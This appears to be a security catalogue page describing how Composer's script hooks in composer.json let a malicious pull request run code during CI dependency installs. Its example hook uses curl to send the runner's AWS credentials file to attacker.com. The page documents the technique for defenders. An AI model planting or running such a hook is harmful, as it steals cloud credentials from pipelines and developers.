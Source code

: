 ```yaml
---
layout: tool
title: composer
tags: [cli, config-file, eval-sh]
references:
- https://getcomposer.org/doc/articles/scripts.md
files: [composer.json]
---
```


## Living Off The Pipeline - composer

`composer` is the standard package manager for PHP. Its functionality can be abused by manipulating script hooks in the `composer.json` file, making it a classic "Living Off The Pipeline" (LOTP) tool.

### First-Order LOTP Tool

`composer` is a **First-Order LOTP Tool**. It provides direct Remote Code Execution (RCE) by design, as it is intended to execute user-defined scripts at various points in its lifecycle.

#### Malicious Primitive: Remote Code Execution (RCE)

The `composer.json` file, which defines a project's dependencies and metadata, contains a `scripts` section. This section allows developers to define shell commands or PHP callbacks that are triggered by events like `post-install-cmd` or `post-update-cmd`.

An attacker can add a malicious command to one of these script hooks in a pull request. When a CI/CD pipeline runs a standard `composer install` or `composer update` command, it will execute the attacker's payload.

### Real-World Attack Scenario

1.  **Attacker's PR:** An attacker submits a pull request with a modified `composer.json` file containing a malicious script hook.
    ```json
    {
      "name": "acme/website",
      "description": "A legitimate project",
      "scripts": {
        "post-install-cmd": [
          "curl --data-binary @$HOME/.aws/credentials http://attacker.com/"
        ]
      }
    }
    ```

2.  **Vulnerable Workflow:** The pipeline contains a completely standard command to install PHP dependencies.
    ```yaml
    - name: Install dependencies
      run: composer install
    ```

3.  **Execution:**
    *   The `composer install` command is executed.
    *   After downloading and installing the project's dependencies, Composer fires the `post-install-cmd` event.
    *   It executes the attacker's `curl` command, exfiltrating sensitive credentials from the CI runner.

This attack is dangerous because the CI/CD workflow file is benign. The malicious payload is hidden in the project's main configuration file.